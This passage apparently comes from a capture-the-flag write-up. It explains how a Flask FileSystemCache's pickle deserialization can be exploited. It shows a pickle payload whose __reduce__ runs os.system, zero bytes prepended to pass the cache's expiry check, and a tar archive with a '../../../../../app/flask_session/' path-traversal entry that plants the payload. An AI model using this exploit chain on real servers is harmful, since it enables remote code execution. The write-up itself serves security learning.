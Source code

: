 ```python
           self._warn(e)
       return serialized
 
   def loads(self, bvalue: bytes) -> _t.Any:
       try:
           data = pickle.loads(bvalue)
       except pickle.PickleError as e:
           self._warn(e)
           return None
       else:
           return data
<snip>
class FileSystemSerializer(BaseSerializer):
   """Default serializer for FileSystemCache."""
```

If we go back to the `FileSystemCache` class, on line 191, the `FileSystemCache.get()` method is defined that reads the file from the disk and checks the first four bytes of the file data. If the check is passed, the file content is deserialized with `self.serializer.load()` method:

```python
def get(self, key: str) -> _t.Any:
   filename = self._get_filename(key)
   try:
       with self._safe_stream_open(filename, "rb") as f:
           pickle_time = struct.unpack("I", f.read(4))[0]
           if pickle_time == 0 or pickle_time >= time():
               return self.serializer.load(f)
   except FileNotFoundError:
       pass
   except (OSError, EOFError, struct.error):
       logging.warning(
           "Exception raised while handling cache file '%s'",
           filename,
           exc_info=True,
       )
   return None
```

We can read from the Pickle documentation that insecure deserialization can lead to remote code execution. To pass the four-bytes check, we can prepend four bytes of zeros before the serialized pickle payload:

```python
def __reduce__(self):
    cmd = ('/readflag > /app/application/static/flag.txt')
    return os.system, (cmd,)
pickle_time = struct.pack("I", 0000)
pickled_payload = pickle_time + pickle.dumps(RCE())
```

Here's how to create the Zip Slip archive with the Pickle payload in Python:

```python
zipslip = io.BytesIO()
tar = tarfile.open(fileobj=zipslip, mode='w:gz')
info = tarfile.TarInfo(f'../../../../../app/flask_session/{filename}')
info.mtime = time.time()
info.size = len(pickled_payload)
tar.addfile(info, io.BytesIO(pickled_payload))
tar.close()
```
